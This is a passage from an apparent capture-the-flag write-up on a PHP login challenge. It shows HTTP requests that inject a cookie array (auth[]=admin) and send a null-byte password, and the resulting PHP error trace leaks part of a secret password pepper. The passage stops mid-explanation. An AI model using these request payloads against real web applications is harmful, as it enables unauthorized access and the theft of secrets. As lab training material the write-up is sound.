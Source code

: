 ```http
GET /test.php HTTP/1.1
Host: localhost:8000
Cookie: auth[]=admin; auth[]=foo


```

Response:

```php
[*] Is admin? 0
array(2) {
  [0]=>
  string(5) "admin"
  [1]=>
  string(3) "foo"
}
[*] Password length: 21
```

So nope. We need to somehow know `$pepper1` in order to generate the admin password hash.

Another approach is also very interesting.

Since this web application **did not disable PHP errors** via function [`error_reporting`](https://www.php.net/manual/en/function.error-reporting.php), maybe we can leak those peppers?

For example, in `i_have_been_pwned/scripts/index.php`'s `password_hash`, **what if the input has a null byte?**

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

auth=guest&password=%00
```

> Note: Null byte in URL encoding is `%00`.

Response:

```html
<br />
<b>Fatal error</b>:  Uncaught ValueError: Bcrypt password must not contain null character in /var/www/html/index.php:21
Stack trace:
#0 /var/www/html/index.php(21): password_hash('PmVG7xe9ECBSgLU...', '2y')
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>21</b><br />
```

Oh! Looks like we leaked `$pepper1`!

Well... It **almost** leaked all of it.

For `$pepper1` and `$pepper2`, they are 16 characters long:
